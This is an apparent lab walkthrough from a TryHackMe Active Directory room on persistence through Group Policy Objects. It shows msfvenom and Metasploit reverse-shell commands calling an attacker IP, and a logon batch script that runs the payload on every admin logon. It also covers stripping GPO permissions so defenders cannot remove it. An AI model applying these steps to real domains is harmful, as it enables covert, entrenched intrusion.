

GPOs
Persistence Through GPOs
The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.
Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.
Domain Wide Persistence
The following are some common GPO persistence techniques:
• Restricted Group Membership - This could allow us administrative access to all hosts in the domain
• Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.
There are many different hooks that can be deployed. You can play around with GPOs to learn about other hooks. Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.
Preparation
Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.50.58.189 lport=7777 -f exe > cybex_shell.exe
Make sure to add your username to the binary name to avoid overwriting the shells of other users. Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called cybex_script.bat on the AttackBox:
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\cybex_shell.exe C:\tmp\cybex_shell.exe && timeout /t 20 && C:\tmp\cybex_shell.exe
You will see that the script executes three commands chained together with &&. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.
We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:
Note: The Forward Slash Only method for SCP also works
In Our Machine:
Finally, let's start our MSF listener:
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.58.189; set LPORT 7777;exploit"
With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.
GPO Creation
The first step uses our Domain Admin account to open the Group Policy Management snap-in:
1. In your runas-spawned terminal, type MMC and press enter.
2. Click on File->Add/Remove Snap-in...
3. Select the Group Policy Management snap-in and click Add
4. Click OK
runas /netonly /user:za.tryhackme.loc\Administrator cmd.exe
You should be able to see the GPO manager:

While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.
We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as username - persisting GPO: (cybex-persisting-gpo)
Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
Let's get back to our Group Policy Management Editor:
1. Under User Configuration, expand Policies->Windows Settings.
2. Select Scripts (Logon/Logoff).
3. Right-click on Logon->Properties
4. Select the Scripts tab.
5. Click Add->Browse.
Let's navigate to where we stored our Batch and binary files:
Then Enter the \\za.tryhackme.loc\SYSVOL in the URL tab of the explorer. Then browse to our scripts.
Select your Batch file as the script and click Open and OK. Click Apply and OK. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback.
Note: After making the changes we can run gpupdate /force to fasten the process. ( Run it in the Administrative Prompt of Runas)
In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and authenticate to a server. Use any of the techniques you've learned in the previous AD rooms to either reset the password of one of the Tier 1 administrators. Once done, remember to start your MSF multi-handler, and let's test it out by RDPing into THMSERVER1 or THMSERVER2!
I have used ACLs Access to reset the password for the following admin for simulation purpose:
Username: t1_bruce.powell
Password: Password123@
Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:
xfreerdp /dynamic-resolution +clipboard /cert:ignore /scale:140 /v:thmserver1.za.tryhackme.loc /u:t1_bruce.powell /p:'Password123@'
Then we wait & check our metasploit listener.
Note: You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign out in order to terminate the session. This will ensure that a Logon event is generated when you reauthenticate:
Thus, we have a reverse shell connection.
Hiding in Plain Sight
Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove our persistence. Go back to your MMC windows, click on your policy and then click on Delegation:

By default, all administrators have the ability to edit GPOs. Let's remove these permissions:
1. Right-Click on ENTERPRISE DOMAIN CONTROLLERS and select Edit settings, delete, modify security.
2. Click on all other groups (except Authenticated Users) and click Remove.
You should be left with delegation that looks like this:
Click on Advanced and remove the Created Owner from the permissions:
[I performed till this step & intentionally left the removal of all access from the GPO except machine account. (Discussed Below)]
By default, all authenticated Users must have the ability to read the policy. This is required because otherwise, the policy could not be read by the user's account when they authenticate to apply User policies. If we did not have our logon script, we could also remove this permission to make sure that almost no one would be able to read our Policy.
We could replace Authenticated Users with Domain Computers to ensure that computers can still read and apply the policy, but prevent any user from reading the policy. Let's do this to test, but remember this can result in you not getting a shell callback upon authentication since the user will not be able to read the PowerShell script, so make sure to test your shell before performing these steps. There is no going back after this:
1. Click Add.
2. Type Domain Computers, click Check Names and then OK.
3. Select Read permissions and click OK.
4. Click on Authenticated Users and click Remove.
Right after you perform these steps, you will get an error that you can no longer read your own policy:
By performing these steps, we can ensure that even with the highest level of permissions, the blue team would not be able to remove our GPO unless they impersonated the machine account of a Domain Controller. This makes it extra hard to firstly discover, and even if they discover the GPO, it would be incredibly hard to remove. We don't even have the required permissions to interface with our policy anymore, so one will have to stay there until a network reset is performed. You can verify that the GPO is still applied by RDPing into one of the THMSERVERS.